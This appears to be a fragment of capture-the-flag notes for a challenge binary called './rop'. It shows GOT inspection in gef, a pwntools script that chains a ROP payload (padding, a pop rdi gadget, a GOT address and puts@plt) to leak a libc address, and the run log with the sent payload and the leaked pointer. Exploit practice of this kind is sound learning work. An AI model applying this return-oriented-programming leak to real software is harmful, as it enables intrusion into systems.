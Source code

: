 
```
gef➤  got

GOT protection: Partial RelRO | GOT functions: 5
[0x601018] puts@GLIBC_2.2.5  →  0x7ffff7e40b00
```

0x 7f 72 d8 3e 80 50
0x a 7f 72 d8 3e 80 50
0x a 00 00 00 00 00 00

0x7f9544ec7050


```python
def leakPuts():
	binary = context.binary = ELF('./rop', checksec=False)
	
	# 0x00000000004006b3 : pop rdi ; ret
	popRDI = p64(0x004006b3)
	retGdgt = p64(0x004004a9)
	
	#pltPuts = p64(binary.plt.puts)		# Address to call
	pltPuts = p64(0x4004c0)
	#pltPuts = p64(0x00400638)
	#gotPuts = p64(binary.got.puts)		# Address to leak
	gotGets = p64(binary.got.gets)

	pld = cyclic(40)
	pld += retGdgt + popRDI + gotGets + pltPuts
	return pld

def localLeak():
	p = process("./rop")
	context.log_level = 'debug'
	p.recvuntil("tools..")
	p.sendline(leakPuts())
	#while True:
		#print(cleanLine(p.recvline()))
	p.interactive()
```

```
┌──(kali㉿kali)-[~/Desktop/6-Week/ROP-Pop-Pop]
└─$ python3 RPP_Pwn_2.py
[+] Starting local process './rop': pid 4120
/home/kali/Desktop/6-Week/ROP-Pop-Pop/RPP_Pwn_2.py:97: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("tools..")
[DEBUG] Received 0x36 bytes:
    b'Can you pop shell? I took away all the useful tools..\n'
[DEBUG] Sent 0x49 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  a9 04 40 00  00 00 00 00  │iaaa│jaaa│··@·│····│
    00000030  b3 06 40 00  00 00 00 00  30 10 60 00  00 00 00 00  │··@·│····│0·`·│····│
    00000040  c0 04 40 00  00 00 00 00  0a                        │··@·│····│·│
    00000049
[*] Switching to interactive mode

[*] Process './rop' stopped with exit code -11 (SIGSEGV) (pid 4120)
[DEBUG] Received 0x7 bytes:
    00000000  50 e0 7b 2d  d0 7f 0a                               │P·{-│···│
    00000007
P\xe0{-\xd0
[*] Got EOF while reading in interactive
```